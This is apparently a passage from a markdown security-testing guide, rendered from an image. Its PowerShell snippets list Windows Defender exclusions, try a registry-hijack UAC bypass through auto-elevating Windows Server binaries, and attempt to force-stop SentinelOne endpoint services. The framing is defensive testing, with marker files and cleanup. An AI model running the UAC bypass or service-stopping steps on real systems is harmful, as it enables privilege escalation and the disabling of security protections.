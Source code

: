 ```powershell
    Write-Host "Windows Defender Exclusions:"
    $exclusions.ExclusionPath | ForEach-Object { Write-Host "- Path: $_" }
}
```

#### UAC and Privilege Escalation Testing
```powershell
# Advanced UAC bypass testing specific to Windows Server
Write-Host "=== WINDOWS SERVER UAC BYPASS TESTING ===" -ForegroundColor Cyan

# Test Server-specific UAC bypass methods
$uacBypassTests = @(
    @{Name="CompMgmtLauncher"; Path="C:\Windows\System32\CompMgmtLauncher.exe"},
    @{Name="ServerManager"; Path="C:\Windows\System32\ServerManager.exe"},
    @{Name="SystemPropertiesAdvanced"; Path="C:\Windows\System32\SystemPropertiesAdvanced.exe"}
)

foreach($test in $uacBypassTests) {
    Write-Host "Testing UAC bypass via: $($test.Name)"
    
    # Attempt registry hijack for UAC bypass
    $regPath = "HKCU:\Software\Classes\mscfile\shell\open\command"
    try {
        New-Item -Path $regPath -Force | Out-Null
        Set-ItemProperty -Path $regPath -Name "(default)" -Value "cmd.exe /c echo UAC_BYPASS_SUCCESS > C:\temp\uac_test.txt"
        
        # Launch the executable that should trigger UAC bypass
        Start-Process $test.Path -WindowStyle Hidden
        Start-Sleep -Seconds 5
        
        if(Test-Path "C:\temp\uac_test.txt") {
            Write-Host "❌ UAC BYPASS SUCCESSFUL - SECURITY RISK!" -ForegroundColor Red
            Remove-Item "C:\temp\uac_test.txt" -Force
        } else {
            Write-Host "✅ UAC bypass prevented" -ForegroundColor Green
        }
        
        # Clean up registry
        Remove-Item -Path $regPath -Force -ErrorAction SilentlyContinue
    }
    catch {
        Write-Host "✅ Registry modification blocked" -ForegroundColor Green
    }
}
```

#### Windows Service Protection
```powershell
# Test Windows service tampering protection
Write-Host "=== WINDOWS SERVICE PROTECTION TESTING ===" -ForegroundColor Cyan

$criticalServices = @("SentinelAgent", "SentinelHelperService", "SentinelStaticEngine")

foreach($serviceName in $criticalServices) {
    $service = Get-Service -Name $serviceName -ErrorAction SilentlyContinue
    if($service) {
        Write-Host "Testing protection for service: $serviceName"
        
        # Test service stop attempts
        try {
            Stop-Service -Name $serviceName -Force -ErrorAction Stop
            Write-Host "❌ Service $serviceName was stopped!" -ForegroundColor Red
        }
```